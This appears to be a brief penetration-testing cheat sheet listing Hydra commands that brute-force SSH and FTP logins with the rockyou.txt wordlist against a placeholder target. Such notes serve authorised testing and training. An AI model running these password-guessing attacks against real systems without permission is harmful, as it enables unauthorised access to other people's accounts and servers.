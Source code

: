 # Hydra

## Brute Force SSH using a USERNAME.
    hydra -l <username> -P /home/rodney/MyWordlists/rockyou.txt ssh://<IPtarget>
    
## Brute Force SSH using a USERLIST and PASSLIST.
    hydra -L <userlist.txt> -P /home/rodney/MyWordlists/rockyou.txt ssh://<IPtarget>    
    
Service can be change:

## Brute Force FTP using a USERLIST and PASSLIST.
    hydra -L <userlist.txt> -P /home/rodney/MyWordlists/rockyou.txt ftp://<IPtarget>    
